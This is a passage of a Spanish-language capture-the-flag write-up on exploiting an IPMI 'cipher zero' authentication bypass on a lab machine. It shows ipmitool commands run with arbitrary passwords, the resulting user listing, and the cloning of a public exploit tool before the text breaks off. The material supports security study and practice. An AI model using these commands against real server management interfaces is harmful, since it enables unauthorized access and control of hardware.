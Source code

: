 ```
|       The issue is due to the vendor shipping their devices with the
|       cipher suite '0' (aka 'cipher zero') enabled. This allows a
|       remote attacker to authenticate to the IPMI interface using
|       an arbitrary password. The only information required is a valid
|       account, but most vendors ship with a default 'admin' account.
|       This would allow an attacker to have full control over the IPMI
|       functionality
```
Y es vulnerable!!. 

## Explotación

Leyendo en la página de hacktricks parece que hay que instalarse ipmitool. Desde mi parrot:
```
> apt-get install ipmitool
``` 
Probemos si funciona:
```
❯ ipmitool -I lanplus -C 0 -H 10.10.11.124 -U root -P root user list
Error: Unable to establish IPMI v2 / RMCP+ session
```
Parece que da error. Si leemos bien nos comenta que la opción -C 0 es para que cualquier contraseña sea aceptada, pero no dice del usuario, con este quizás habría que acertar uno que exista. Probemos con el usuario Administrator:
```
❯ ipmitool -I lanplus -C 0 -H 10.10.11.124 -U Administrator -P root user list
ID  Name	    Callin  Link Auth	IPMI Msg   Channel Priv Limit
1                    true    false      false      USER
2   Administrator    true    false      true       USER
3                    true    false      false      Unknown (0x00)
4                    true    false      false      Unknown (0x00)
5                    true    false      false      Unknown (0x00)
6                    true    false      false      Unknown (0x00)
7                    true    false      false      Unknown (0x00)
8                    true    false      false      Unknown (0x00)
```
Funciona. Hemos lanzado el comando user list. Me gustaría lanzarme una reverse shell. Busco por internete, fuera ya de hacktricks. Si buscas **ipmi exploit github** encuentras un exploit de un conocido de la comunidad del maestro s4viar, hablo de c0rnf13ld.
```
❯ git clone https://github.com/c0rnf13ld/ipmiPwner
Clonando en 'ipmiPwner'...
remote: Enumerating objects: 40, done.
remote: Counting objects: 100% (33/33), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 40 (delta 18), reused 26 (delta 14), pack-reused 7
Recibiendo objetos: 100% (40/40), 18.12 KiB | 6.04 MiB/s, listo.
Resolviendo deltas: 100% (18/18), listo.

❯ ls
total 0
drwxr-xr-x 1 root root 122 may 23 10:59 ipmiPwner
❯ cd ipmiPwner
❯ ls
total 24K
drwxr-xr-x 1 root root   18 may 23 10:59 bashVersion
-rwxr-xr-x 1 root root  11K may 23 10:59 ipmipwner.py
-rwxr-xr-x 1 root root 3,4K may 23 10:59 rakpcrk.py
-rw-r--r-- 1 root root 1,9K may 23 10:59 README.md
-rwxr-xr-x 1 root root  470 may 23 10:59 requirements.sh
```
``` sh
❯ cat requirements.sh
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```